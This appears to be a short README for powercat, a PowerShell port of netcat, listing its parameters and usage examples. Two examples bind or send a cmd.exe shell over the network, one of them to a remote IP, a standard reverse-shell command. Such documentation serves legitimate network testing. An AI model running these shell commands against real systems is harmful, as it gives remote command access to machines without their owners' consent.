 #powercat

Netcat: The powershell version. (v2 compatible)

### Parameters:
    -l    Listen for a connection.                    [Switch]
    -c    Connect to a listener.                      [String]
    -p    The port to connect to, or listen on.       [String]
    -e    GAPING_SECURITY_HOLE                        [String]
    -t    Timeout option. Default: 60                 [int32]
### Usage Examples:
    powercat -l 443
    powercat -l -e cmd.exe 443
    powercat -c 10.1.1.10 443
    powercat -c 10.1.1.10 -e cmd.exe 443
### Stuff that Doesn't Work (Yet):
    Output redirection. (powercat -l 443 > C:\outfile)
    Accepting pipeline input. (cat infile | powercat -c 10.1.1.1 443)
